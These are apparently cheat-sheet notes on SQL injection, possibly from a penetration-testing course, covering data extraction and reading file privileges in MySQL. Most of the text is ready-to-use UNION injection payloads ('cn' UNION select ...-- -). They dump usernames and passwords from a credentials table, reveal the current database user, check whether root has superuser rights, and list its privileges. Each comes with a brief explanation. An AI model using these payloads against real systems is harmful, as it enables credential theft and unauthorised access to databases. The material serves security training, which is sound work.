 ### Extracting Data

- **Union Injection to Dump Data**:
  ```sql
  cn' UNION select 1, username, password, 4 from dev.credentials-- -
  ```
  - **Explanation**: This query dumps the `username` and `password` data from the `dev.credentials` table. The columns `1` and `4` are placeholders to balance the number of columns.

---

# Reading Files 

#### Privileges

- **Importance of Privileges**:
  - Reading data is more common than writing data.
  - The user must have the `FILE` privilege to read files.

#### DB User

- **Determine Current User**:
  ```sql
  SELECT USER();
  SELECT CURRENT_USER();
  SELECT user FROM mysql.user;
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, user(), 3, 4-- -
  ```
  - Retrieves the current database user.

#### User Privileges

- **Check Super Admin Privileges**:
  ```sql
  SELECT super_priv FROM mysql.user;
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
  ```
  - Checks if the current user has superuser privileges (`Y` means YES).

- **Check All Privileges**:
  ```sql
  SELECT grantee, privilege_type FROM information_schema.user_privileges;
  ```
- **Union Injection Example**:
  ```sql
  cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
  ```
  - Lists all privileges for the `root` user.
